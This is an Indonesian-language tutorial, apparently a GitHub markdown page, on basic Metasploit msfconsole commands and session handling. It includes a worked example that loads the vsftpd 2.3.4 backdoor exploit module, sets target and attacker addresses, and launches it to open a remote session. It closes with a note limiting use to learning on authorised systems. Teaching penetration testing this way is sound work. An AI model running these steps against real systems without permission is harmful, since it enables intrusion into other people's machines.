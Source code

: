 # Perintah Dasar MSFconsole

## A. Apa Itu MSFconsole?

`msfconsole` adalah antarmuka CLI utama dalam Metasploit Framework. Untuk bisa menggunakan Metasploit secara efektif, penting untuk menguasai perintah-perintah dasarnya.

## B. Menjalankan MSFconsole:

```
msfconsole
```

Setelah dijalankan, kamu akan masuk ke CLI Metasploit:

```
msf6 >
```

## C. Daftar Perintah Dasar MSFconsole yang Wajib Diketahui

| Perintah | Fungsi |
|:--:|:--:|
| `help` atau `?`	| Menampilkan semua perintah yang tersedia. |
| `search <KEYWORD>` | Mencari `exploit`, `payload`, `auxiliary`, `dll`. |
| `use <NAMA_MODUL>` | Memilih modul tertentu untuk digunakan. |
| `info` |	Menampilkan informasi detail dari modul yang sedang dipilih. |
| `show options` | Menampilkan parameter yang bisa diatur pada modul. |
| `set <PARAMETER> <NILAI>` |	Mengatur parameter (contoh: `RHOSTS`, `LHOST`, `PAYLOAD`). |
| `unset <PARAMETER>`	| Menghapus nilai parameter yang telah diatur. |
| `show payloads	`| Menampilkan semua payload yang kompatibel. |
| `show exploits`	| Menampilkan semua exploit yang tersedia. |
| `show auxiliary` | Menampilkan modul bantu seperti scanner. |
| `exploit` atau `run` | Menjalankan modul exploit. |
| `back` | Kembali ke menu utama dari modul. |
| `exit` atau `quit` | Keluar dari msfconsole. |

## D. Contoh Penggunaan Sederhana:

```
search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
show options
set RHOSTS <IP_TARGET>
set LHOST <IP_ATTACKER>
exploit
```

## E. Perintah Session

Jika exploit berhasil, biasanya akan membuka session:

| Perintah | Fungsi |
|:--:|:--:|
| `sessions` | Menampilkan daftar sesi aktif |
| `sessions -i <ID>`	| Masuk ke session yang aktif |
| `background`	| Menyimpan session ke latar belakang |
| `sessions -k <ID>` | Menghentikan session tertentu |

## Tips Tambahan
- Gunakan `tab` untuk auto-complete.
- Gunakan `Ctrl + C` untuk menghentikan exploit yang sedang berjalan.
- Gunakan `jobs` dan `kill <ID>` untuk melihat dan menghentikan job background.

> Gunakan hanya untuk pembelajaran dan pada sistem yang kamu punya izin untuk uji coba.
